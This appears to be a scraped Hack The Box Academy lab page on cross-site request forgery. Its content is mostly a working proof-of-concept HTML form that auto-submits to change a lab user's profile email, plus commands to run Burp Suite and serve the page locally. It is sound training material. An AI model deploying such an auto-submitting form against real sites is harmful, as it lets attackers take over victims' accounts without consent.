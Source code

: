 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/153/section/1447
// Platform Version: V1
// Module ID: 153
// Module Name: Session Security
// Module Difficulty: Medium
// Section ID: 1447
// Section Title: Cross-Site Request Forgery
// Page Title: Hack The Box - Academy
// Page Number: 06
-->

# Cross-Site Request Forgery

**Module Name:** Session Security **Page Number:** 06

#### 

#### SESSION SECURITY

# Cross-Site Request Forgery (CSRF or XSRF)

## Cross-Site Request Forgery Example

``` shell-session
ndefstathiou@htb[/htb]$ burpsuite
```

![https://academy.hackthebox.com/storage/modules/153/28.png](https://academy.hackthebox.com/storage/modules/153/28.png)

``` html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

![https://academy.hackthebox.com/storage/modules/153/29.png](https://academy.hackthebox.com/storage/modules/153/29.png)

``` shell-session
ndefstathiou@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

![https://academy.hackthebox.com/storage/modules/153/30.png](https://academy.hackthebox.com/storage/modules/153/30.png)

# 

# 

#### Questions

####